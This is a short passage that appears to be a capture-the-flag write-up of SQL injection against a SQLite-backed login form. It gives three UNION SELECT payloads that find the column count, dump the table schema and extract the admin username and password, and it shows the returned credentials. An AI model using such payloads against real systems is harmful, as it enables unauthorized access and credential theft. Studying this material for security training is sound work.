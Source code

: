 Check the number of the collums, the payload success indicating the current table have 2 collums(which is username and password):
```
login=admin&password=a'+union+select+null,+null--
```
The payload
```
'+UNION+SELECT+name,+sql+FROM+sqlite_master--
```
return `users` and `CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)`
```
'+UNION+SELECT+username,password+FROM+users--
```
return `admin` and `t0_W34k!$`